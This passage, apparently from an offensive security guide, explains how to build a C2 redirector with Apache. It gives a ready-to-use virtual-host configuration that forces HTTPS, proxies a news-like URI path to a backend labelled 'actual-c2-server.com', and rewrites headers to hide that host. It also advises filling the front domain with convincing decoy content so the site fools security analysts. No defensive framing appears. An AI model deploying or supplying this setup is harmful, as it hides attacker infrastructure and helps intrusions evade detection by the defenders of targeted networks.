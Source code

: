 For maximum effectiveness, populate the web server with convincing content that matches the domain name. For example, if using a news-related domain, include articles, images, and other elements that make the site appear legitimate to both casual visitors and security analysts.

#### Apache Implementation

Apache HTTP Server provides an alternative implementation with similar capabilities:

```apache
<VirtualHost *:80>
    ServerName legitimate-looking-domain.com
    ServerAdmin admin@example.com
    DocumentRoot /var/www/legitimate-looking-domain.com

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

    # Redirect everything to HTTPS
    Redirect permanent / https://legitimate-looking-domain.com/
</VirtualHost>

<VirtualHost *:443>
    ServerName legitimate-looking-domain.com
    ServerAdmin admin@example.com
    DocumentRoot /var/www/legitimate-looking-domain.com

    SSLEngine on
    SSLCertificateFile /etc/letsencrypt/live/legitimate-looking-domain.com/fullchain.pem
    SSLCertificateKeyFile /etc/letsencrypt/live/legitimate-looking-domain.com/privkey.pem

    # Redirect specific URI pattern
    ProxyPass /news/api/v1/ https://actual-c2-server.com:443/api/
    ProxyPassReverse /news/api/v1/ https://actual-c2-server.com:443/api/
    
    # Set headers for client tracking
    ProxyPreserveHost Off
    RequestHeader set Host "actual-c2-server.com"
    RequestHeader set X-Forwarded-For "%{REMOTE_ADDR}s"
</VirtualHost>
```

This Apache configuration accomplishes similar goals to the Nginx version with some differences:

- **Forced HTTPS**: All HTTP traffic is permanently redirected to HTTPS, ensuring all C2 communication is encrypted.
- **ProxyPass Directives**: Apache uses `ProxyPass` and `ProxyPassReverse` directives to handle the proxying of specific URI patterns.
- **Header Manipulation**: The `RequestHeader` directive sets appropriate headers for the proxied requests.

When choosing between Nginx and Apache, consider factors such as familiarity, performance requirements, and specific feature needs. Nginx generally offers better performance for proxying tasks, while Apache may provide more extensive module support and integration options.
